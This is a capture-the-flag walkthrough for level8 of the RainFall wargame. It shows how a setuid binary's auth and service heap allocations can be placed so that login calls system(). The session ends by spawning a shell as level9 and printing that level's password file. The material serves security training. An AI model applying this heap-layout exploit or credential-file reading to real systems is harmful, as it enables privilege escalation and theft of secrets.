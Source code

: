 # level8 walkthrough
Given setuid binary which is waiting for input:

    level8@RainFall:~$ ./level8
    (nil), (nil)
    bla
    (nil), (nil)
    test
    (nil), (nil)

    (nil), (nil)
    aaaabbbbccccdddddeeeefffff
    (nil), (nil)
    ^C
    level8@RainFall:~$

There is a very long main function which reads stdin via fgets in an infinite loop waiting for user commands:

    auth - calls malloc and strcpy and copies data following auth into the global variable auth.
    service - calls strdup() and copies data following service into the global variable service.
    reset - calls free() and frees the global variable auth.
    login - calls system() if auth[32] is different to 0, or fwrite() otherwise. Then displays addresses of the globals variables auth and service.

In order to reach the system function we have to play with the command above. Lets run the program to see the addresses of our global variables after each command:

    level8@RainFall:~$ ./level8
    (nil), (nil)
    auth 
    0x804a008, (nil)
    service
    0x804a008, 0x804a018

At this moment we can see that the address of service is exactly 16 bytes after the address of auth.
Now all we need to do is to create two pointers with commands auth and service long enough to reach 32 bytes including the 16 bytes of padding between them:

    level8@RainFall:~$ ./level8 
    (nil), (nil) 
    auth 
    0x804a008, (nil) 
    service0123456789abcdef
    0x804a008, 0x804a018 
    login
    $ whoami
    level9
    $ cat /home/user/level9/.pass
    c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
